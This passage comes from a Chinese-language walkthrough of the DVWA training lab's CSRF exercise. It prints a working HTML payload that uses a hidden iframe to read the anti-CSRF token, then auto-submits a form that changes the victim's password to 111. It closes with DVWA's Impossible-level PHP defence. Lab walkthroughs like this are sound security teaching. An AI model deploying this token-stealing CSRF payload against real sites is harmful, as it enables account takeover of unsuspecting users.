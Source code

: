 这里直接通过 script 标签的 src 来引入外部 js，访问之后此时密码就被更改为 111 了

1. **常规思路 HTML 发起 CSRF 请求**

假设攻击者这里可以将 HTML 保存上传到 CORS 的跨域白名单下的话，那么这里也可以通过 HTML 这种组合式的 CSRF 攻击。





html

```html
<script>
  function attack(){
    var token = document.getElementById("get_token").contentWindow.document.getElementsByName('user_token')[0].value
    document.getElementsByName('user_token')[0].value=token;
    alert(token);
    document.getElementById("csrf").submit();
  }
</script>

<iframe src="http://127.0.0.1:8888/vulnerabilities/csrf/" id="get_token" style="display:none;">
</iframe>

<body onload="attack()">
  <form method="GET" id="csrf" action="http://127.0.0.1:8888/vulnerabilities/csrf/">
    <input type="hidden" name="password_new" value="111">
    <input type="hidden" name="password_conf" value="111">
    <input type="hidden" name="user_token" value="">
    <input type="hidden" name="Change" value="Change">
  </form>
</body>
```

将上述文件保存为 csrf.html 然后放入到 CORS 白名单目录下，这在实战中比较少见，这里为了演示效果，国光将这个文件放入到靶场服务器的根目录下，然后直接访问这个页面即可发起 CSRF 攻击：





payload

```payload
http://127.0.0.1:8888/csrf.html
```

## Impossible

下面来看一下 Impossible 的防护方式：





php

```php
# 依然检验用户的 token
checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

# 需要输入当前的密码
$pass_curr = $_GET[ 'password_current' ];
$pass_new  = $_GET[ 'password_new' ];
$pass_conf = $_GET[ 'password_conf' ];

# 检验当前密码是否正确
$data = $db->prepare( 'SELECT password FROM users WHERE user = (:user) AND password = (:password) LIMIT 1;' );
```
